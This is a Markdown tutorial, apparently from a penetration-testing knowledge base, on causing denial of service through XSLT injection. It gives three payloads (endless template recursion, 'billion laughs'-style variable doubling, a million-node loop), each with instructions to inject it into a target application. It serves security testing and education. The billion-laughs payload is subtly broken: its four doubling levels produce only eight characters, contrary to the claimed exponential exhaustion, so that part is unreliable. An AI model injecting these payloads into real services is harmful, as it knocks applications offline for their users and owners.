 ```yaml
---
title: Exploiting XSLT for Denial of Service Attacks
description: Explore Denial of Service via XSLT injection, causing server resource
  exhaustion using malicious payloads in web applications.
keywords:
- XSLT injection
- Denial of Service
- DoS attack
- resource exhaustion
- server disruption
- infinite recursion
- billion laughs
- memory exhaustion
---
```


# Denial of Service

## Context

In this article, we aim to demonstrate and execute Denial of Service (DoS) attacks through XSLT injection. By exploiting XSLT processing capabilities, attackers can potentially exhaust server resources or disrupt the availability of web applications. To fully grasp the content, it is assumed that the reader has prior knowledge of XSLT processing, XML structures, and basic server resource management.

## Theory

### Resource Exhaustion via XSLT Injection

Denial of Service through XSLT exploits involves crafting specific payloads that harness the resource-intensive nature of XSLT processing. By utilizing user-supplied templates and functions, attackers can induce excessive computation or memory use, leading to server fatigue. The vulnerability lies in the XSLT’s allowance for unrestricted processing, which can be manipulated to create infinite loops, recursion, or exponential data expansion.

### Attack Vectors for XSLT-Based DoS

Several attack vectors facilitate XSLT-based Denial of Service:

- Inject XSLT payloads that trigger infinite template recursion or excessive node generation.
- Leverage functions such as `generate-id` or string manipulation to invoke CPU or memory exhaustion.
- Utilize recursive templates or the infamous 'billion laughs' style entity expansion to surge resource consumption.

### Common Payload Patterns

- **Infinite Loop**: This pattern involves a template calling itself recursively without a termination condition.
- **Billion Laughs**: This approach involves nested expansion of XSLT variables or templates, amplifying the processing workload exponentially.
- **Memory Exhaustion**: This involves assigning large variables or repeatedly creating nodes to saturate the server's memory.

## Practice

### Infinite Recursion via XSLT Template

To create an infinite recursion using XSLT templates, insert the payload below in an application that processes XSLT transformations:

```xml
<xsl:template match="/">
    <xsl:call-template name="loop"/>
</xsl:template>

<xsl:template name="loop">
    <xsl:call-template name="loop"/>
</xsl:template>
```

- **Action**: Submit this payload through an XSLT injection point within the web application.
- **Effect**: The server reaches stack overflow or CPU exhaustion due to unending recursive template calls, resulting in a significant slowdown or application crash.

### Billion Laughs-Style Expansion in XSLT

This attack involves creating an exponential increase in processing using the following payload:

```xml
<xsl:variable name="a">A</xsl:variable>
<xsl:variable name="b"><xsl:value-of select="$a"/><xsl:value-of select="$a"/></xsl:variable>
<xsl:variable name="c"><xsl:value-of select="$b"/><xsl:value-of select="$b"/></xsl:variable>
<xsl:variable name="d"><xsl:value-of select="$c"/><xsl:value-of select="$c"/></xsl:variable>

<xsl:template match="/">
    <xsl:value-of select="$d"/>
</xsl:template>
```

- **Action**: Inject this payload into any vulnerable interface that conducts XSLT transformations.
- **Effect**: Memory and CPU resources are exhausted due to the exponential expansion, potentially leading to a denial of service state.

### Large Node Generation for Memory Exhaustion

Create a significant number of nodes to burden server memory with the following payload:

```xml
<xsl:template match="/">
    <xsl:for-each select="1 to 1000000">
        <item>DoS</item>
    </xsl:for-each>
</xsl:template>
```

- **Action**: Inject this payload into the server's XSLT processing input.
- **Effect**: Excessive node creation consumes server memory, causing the application to become unresponsive or crash.

## Tools

- **Burp Suite**
- **OWASP ZAP**
- **curl**
  
These tools can aid in crafting payloads and injecting them into target applications to test for vulnerabilities and exploit them effectively for analysis and understanding.